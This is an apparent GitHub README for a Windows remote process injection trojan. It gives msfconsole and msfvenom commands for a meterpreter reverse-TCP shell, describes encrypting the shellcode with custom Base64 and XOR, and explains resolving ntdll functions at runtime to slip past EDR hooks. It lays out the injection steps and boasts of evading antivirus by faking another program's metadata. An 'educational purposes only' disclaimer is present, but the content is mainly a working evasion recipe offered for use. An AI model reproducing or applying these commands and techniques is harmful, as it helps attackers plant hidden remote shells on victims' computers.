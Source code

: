 # Native API Remote Process injection Trojan

Remote process injection trojan using Native Api stubs (dynamically resolved) and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
This malware uses dynamically resolved function pointers from ntdll.dll to reduce static IAT footprint, it retrieves addresses of native api functions at runtime and uses them to decrypt and upload shellcode into a target process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) Native Api:
We get a handle to ntdll and we export its functions, these are the lowest level Win API calls exposed to the user mode, and are the closest interface to the Windows kernel, below them there are just system calls which i will include in the future. Unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom type def structs for each function, and we define all the internal structures and objects that they need, sometimes structures will require even more internal objects n stuff.

- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```.

### 2.2) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we find the PID of the target process using GetProcID and we get a handle for it;
- We allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable;
- Then we create a new thread in the target process which will execute the shellcode.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection
The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). On virus total it gets 9 detections and as usual virustotal doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like visual studio code installer, the detections drop to 2 on virus total.

<img align="right" src="media/hsav2.png" width="430" />
